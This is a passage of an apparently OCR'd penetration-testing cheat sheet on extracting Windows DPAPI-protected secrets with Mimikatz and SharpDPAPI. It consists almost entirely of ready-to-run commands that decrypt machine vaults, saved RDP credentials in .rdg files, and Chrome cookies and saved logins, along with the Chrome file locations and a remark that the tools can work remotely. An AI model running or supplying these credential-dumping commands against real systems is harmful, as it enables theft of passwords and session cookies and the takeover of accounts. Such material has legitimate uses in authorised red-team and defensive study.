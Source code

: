 \begin{lstlisting}[language=sh]
SharpDPAPI machinevaults
\end{lstlisting}
\textit{-> Elevates to extract DPAPI\_SYSTEM first to extract machine masterkeys}

\textit{Note: SharpDPAPI triage runs the user credentials, vaults, rdg, and certificates commands automatically!}

\subsubsection*{DPAPI Extracting saved RDP connection credentials (.rdg files)}

Mimikatz can decrypts .rdg files:
\begin{lstlisting}[language=sh]
mimikatz # dpapi::blob /in:FILE.rdg [/masterkey:SHA1|/unprotect]
\end{lstlisting}

SharpDPAPI decrypts .rdg files:
\begin{lstlisting}[language=sh]
SharpDPAPI rdg /unprotect

SharpDPAPI rdg [GUID1:SHA1 GUID2:SHA1 ...]

SharpDPAPI rdg /mkfile:MASTER_KEY_FILE.txt

SharpDPAPI rdg /pvk:BASE64 </server:SERVER.domain.com>
\end{lstlisting}
\textit{-> Triages user masterkeys first, also can work remotely!}

\textit{Note: SharpDPAPI triage runs the user credentials, vaults, rdg, and certificates commands automatically!}

\subsubsection*{DPAPI Extracting Chrome cookies \& saved logins}

Mimikatz can decrypt Chrome cookies and saved logins:
\begin{lstlisting}[language=sh]
mimikatz # dpapi::chrome /in:"Login Data|Cookies" [/unprotect | /masterkey:SHA1]
\end{lstlisting}

Chrome file locations:
\begin{lstlisting}[language=sh]
%localappdata%\Google\Chrome\User Data\Default\Cookies
%localappdata%\Google\Chrome\User Data\Default\Login Data
\end{lstlisting}

\textbf{SharpChrome} (part of SharpDPAPI) can also triage Chrome cookies and/or saved logins using decrypted masterkeys, the domain backup key, or the legitimate DPAPI.

